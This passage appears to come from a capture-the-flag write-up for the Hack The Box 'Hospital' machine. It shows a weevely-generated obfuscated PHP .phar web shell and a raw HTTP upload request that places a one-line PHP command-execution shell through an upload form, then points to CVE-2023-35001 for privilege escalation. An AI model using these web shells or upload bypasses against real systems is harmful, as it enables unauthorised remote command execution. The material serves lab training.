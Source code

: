 okey the fun fact we can upload `phar` file. i will use [weevely](https://github.com/epinna/weevely3) here

https://github.com/epinna/weevely3

```bash
(.venv) ➜  weevely3 git:(master) python3 weevely.py generate a a.phar   
Generated 'a.phar' with password 'a' of 696 byte size.
(.venv) ➜  weevely3 git:(master) ✗ ls
a.phar  bd  CHANGELOG.md  core  LICENSE  modules  README.md  requirements.txt  tests  utils  weevely.1  weevely.py
(.venv) ➜  weevely3 git:(master) ✗ cat a.phar 
<?php include "\160\x68\141\x72\72\57\57".basename(__FILE__)."\57\x78";__HALT_COMPILER(); ?>/x�Z~'�U�Qk�0���+J�hBE���\
                                                                                                                      ��^ƶ���J��FkR�8D����1a络s9w�X��Xˊva+�P�t|��۵ jX��LޏR5jQ)�d�o��x|�e)�Z����#}=�e��&�$�QT��
���@!�`�N(�_iKQr��*�r���t��Cf
GӅl��?��\&h�$IL��]_@����v�9����{ocp�4eL���U��A�)`A�O▒�▒�^^�J+
��,#4��ec�} �;&D��S�
```

or or or

```bash
POST /upload.php HTTP/1.1
Host: hospital.htb:8080
Content-Length: 241
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://hospital.htb:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryxyuxenDUysHEuB75
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://hospital.htb:8080/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ddlci3j2ut22j0phjve4hc141k
Connection: keep-alive

------WebKitFormBoundaryxyuxenDUysHEuB75
Content-Disposition: form-data; name="image"; filename="b.phar"
Content-Type: text/plain

<?php echo fread(popen($_REQUEST['cmd'], "r"), 1000000); ?>

------WebKitFormBoundaryxyuxenDUysHEuB75--
```

and grab shell. we are in

### CVE-2023-35001
